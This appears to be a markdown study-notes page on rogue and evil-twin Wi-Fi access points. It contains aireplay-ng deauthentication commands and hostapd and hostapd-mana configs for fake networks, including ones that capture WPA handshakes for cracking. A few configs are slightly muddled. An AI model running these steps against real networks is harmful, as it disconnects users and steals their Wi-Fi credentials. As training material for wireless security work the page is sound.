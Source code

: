 ```yaml
---
description: >-
  Rogue Access Points
title:  Rogue Access Points      # Add title here
date: 2023-09-27 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Wireless Attacks]                     # Change Templates to Writeup
tags: [wireless, rogue AP, evil-twin]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


A rogue AP is an AP in use that has not been authorized by a local network administrator. This could take the form of an AP plugged into a network without the administrator's knowledge.

## Creating a Rogue AP
Evil twins can be in any channel, except if we clone the BSSID of the AP we want to impersonate, in which case the channel must be different. But APs with different BSSID and equal ESSID can coexist in the same channel.

If we get a connection in an evil twin, the connected client won't have internet access if we don't give him an IP with a dhcp server.

> With hostapd, we need to be listening with airodump (on another wifi interface) at the same time that we host the fake ap, to capture handshakes of clients that try to connect to us, despite the PSK mismatch (since we don't know the real PSK but will crack it from their handshake to us)
{: .prompt-warning }

Deauth a client if he doesn't connect to our AP
``sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon``

### hostapd / hostapd-mana
hostapd-mana is an enhanced version of hostapd. Both are used for hosting fake APs, but mana includes more options to do things like dump passwords obtained from the handshake. Hostapd-mana can read hostapd config files, but also includes other options 

Install
```bash
sudo apt install hostapd-mana
sudo apt install hostapd-mana
```

Simple hostapd-mana configuration file called `a.conf`
```bash
interface=wlan0
ssid=Mostar
channel=1
```

Run hostapd
```bash
hostapd a.conf
hostapd-mana a.conf
```

WPA/WPA2 configuration file: 

```bash
# Interface
interface=wlan0
# SSID
ssid=Mostar
# Channel  
channel=1
# Value "g" for 2.4GHz and value "n" for 5GHz
hw_mode=g 
# This value is needed to comply with 802.11n (Wi-Fi New Generation [Better transmission]) 
ieee80211n=1 
# always the same for all linux devices
driver=nl80211  
# Value 3 enable both WPA and WPA2. Value 2 enable WPA2. Value 1 enable WPA.
wpa=3 
# To enable WPA-PSK
wpa_key_mgmt=WPA-PSK 
# Random value, irrelevant for this purpose, but needed.
wpa_passphrase=ANYPASSWORD 
# Enable TKIP/CCMP encryption with WPA. (Only use this or rsn_pairwise)
wpa_pairwise=TKIP CCMP 
# Enable TKIP/CCMP encryption with WPA2. (Only use this or wpa_pairwise)
rsn_pairwise=TKIP CCMP 
# File where WPA hashes will be saved
mana_wpaout=/home/kali/mostar.hccapx 

- auth_algs (this is for WEP, for WPA use the equivalent ``wpa`` parameter-> 
	- ``auth_algs=0`` ->OPEN
	- ``auth_algs=1`` ->WEP
	- ``auth_algs=2`` -> Both
- ``wep_key0`` <- we can use up to 4
```
To deauthenticate clients, we first connect a new wireless card and start monitor mode on channel 1 by using airmon-ng. The channel should be set to "1" to match that of our target AP. This is all accomplished by running sudo airmon-ng start wlan1 1. Next, we can use aireplay-ng to run a deauthentication attack (-0), continuously (0), against all clients connected to our target AP (-a FC:7A:2B:88:63:EF).

```bash
### This channel needa to be the exact same of the SSID where deauth will be executed
sudo airmon-ng start wlan1 1
### Use the BSSID to deauthenticate
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1
```

#### hostap with  no encryption
```
interface=wlan1
ssid=hostel-A
hw_mode=g
channel=6
driver=nl80211
```

#### hostap with wep
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=hostel-A
auth_algs=1
wep_default_key=0
wep_key0="54321"
```

#### hostap with WPA-PSK
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=HomeAlone
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
wpa_passphrase=welcome@123
```

#### hostap with WPA2-PSK
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=Lost-in-space
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup

# SSID 2
bss=wlan1_0
ssid=LOCOMO-Mobile-hotspot
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup
```

alternative
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211

ssid=Lost-in-space
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=beautifulsoup
```

#### Hosting several APs
Two different ESSIDs with the same wifi antenna (interface wlan1). With hostap, if we want to simulate several ESSIDs, the first one must use the keyword "interface" and the real interface name, and the next ones use the keyword "bss" and we use fictitious names, like wlan1_0. This can be used if a client probes different clients.
```
# SSID 1
interface=wlan1
driver=nl80211
ssid=dex-net
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1

# SSID 2
bss=wlan1_0
ssid=dex-network
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```


```
interface=wlan0
ssid=<ESSID>
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/output.hccapx
```
